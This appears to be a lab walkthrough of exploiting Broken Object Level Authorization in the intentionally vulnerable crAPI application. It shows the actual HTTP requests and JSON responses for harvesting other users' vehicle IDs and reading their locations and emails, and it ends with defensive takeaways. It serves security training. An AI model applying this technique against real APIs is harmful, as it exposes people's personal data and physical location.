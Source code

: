 # 📖 BOLA Exploitation Walkthrough – crAPI Labs

This note outlines the step-by-step process used in **crAPI Labs** to test for **Broken Object Level Authorization (BOLA)**. It demonstrates how unauthorized access to sensitive vehicle data can be achieved by manipulating object identifiers in API requests.

---

# 📚 Definition Bank:

### **BOLA (Broken Object Level Authorization)**

- **Definition:** BOLA occurs when an attacker can access or manipulate objects (like user data, vehicles, or documents) they are not authorized to access by **modifying identifiers** in an API request.
- **Impact:** Unauthorized data access, privacy violations, and potential data breaches.
- **Key Example:** Changing a `vehicleId` or `userId` in an API request to access someone else's data.

---

# 🎯 Steps to Identify BOLA – crAPI Labs Walkthrough:

### **Step 1: Logging in and Initial Exploration**

- Log in as **[john@test.com](mailto:john@test.com)** and access the dashboard at:
    
    ```plaintext
    http://localhost:8888/dashboard
    ```
    
- The dashboard displays the following vehicle information:
    
    ```
    VIN: 1GIGF95XMMN431588
    Company: Mercedes-Benz
    Model: GLA Class
    Fuel Type: PETROL
    Year: 2025
    ```
    
- This dashboard reveals personal vehicle details, including an image of the car.

---

### **Step 2: Navigating to the Community Forum**

- Click the **Community** tab in the navigation bar:
    
    ```plaintext
    http://localhost:8888/forum
    ```
    
- The forum displays three posts. Clicking on a post generates a URL like:
    
    ```plaintext
    http://localhost:8888/post?post_id=p9YNVj5mQG9CssvvHfQrMm
    ```
    

---

### **Step 3: Capturing Traffic with Burp Suite**

- Capture traffic using **Burp Suite** and inspect the network activity.
- Send the following request to **Repeater**:
    
    ```http
    GET /community/api/v2/community/posts/recent?limit=30&offset=0
    ```
    
- **Response:** The server responds with JSON containing multiple **vehicle IDs**, **usernames**, and **emails**:
    
    ```json
    {
       "posts":[
          {
             "id":"p9YNVj5mQG9CssvvHfQrMm",
             "title":"Title 3",
             "author":{"nickname":"Robot","email":"robot001@example.com","vehicleid":"4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5"}
          },
          {
             "id":"wYNViivCKB9BTYM3MCpPcU",
             "title":"Title 2",
             "author":{"nickname":"Pogba","email":"pogba006@example.com","vehicleid":"cd515c12-0fc1-48ae-8b61-9230b70a845b"}
          }
       ]
    }
    ```
    

---

### **Step 4: Testing for BOLA by Manipulating Vehicle IDs**

- Return to the HTTP history in Burp Suite and send the following request to **Repeater**:
    
    ```http
    GET /identity/api/v2/vehicle/80c2d9f1-159f-4f79-a77d-ccf0ec47efb7/location
    ```
    
- This request returns **John's own vehicle data**.

---

### **Step 5: Exploiting BOLA (Unauthorized Access)**

- Replace **John's vehicle ID** with another **vehicleId** captured earlier (`4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5`):
    
    ```http
    GET /identity/api/v2/vehicle/4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5/location
    ```
    
- **Response:**
    
    ```json
    {
      "carId":"4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5",
      "vehicleLocation":{"latitude":"37.746880","longitude":"-84.301460"},
      "fullName":"Robot",
      "email":"robot001@example.com"
    }
    ```
    
- ✅ **BOLA Confirmed:** John was able to access **another user's vehicle location and personal data**.

---

# ❓ Why is This a BOLA Vulnerability?

### 📌 **Key Indicators:**

- **Object Exposure:** The `vehicleId` was exposed in the `/community/api/v2/community/posts/recent` response.
- **Insufficient Authorization:** The API endpoint `/identity/api/v2/vehicle/{vehicleId}/location` failed to verify if John was authorized to access **Robot's** vehicle.
- **Direct Object Reference:** Access was determined solely by the **vehicleId** passed in the request, with **no session validation** or token check.

### 📌 **Impact:**

- **Data Exposure:** Leaked personal information including full name, email, and vehicle location.
- **Privacy Violation:** Unauthorized access to sensitive vehicle data.
- **Potential Risk:** Could be escalated to physical threats if live vehicle tracking was involved.

---

# ✅ **Key Takeaways:**

- **BOLA** occurs when **authorization checks are missing at the object level.**
- Always validate user permissions on **both client-side and server-side.**
- Use **token-based access controls** and avoid exposing **predictable identifiers**.

---
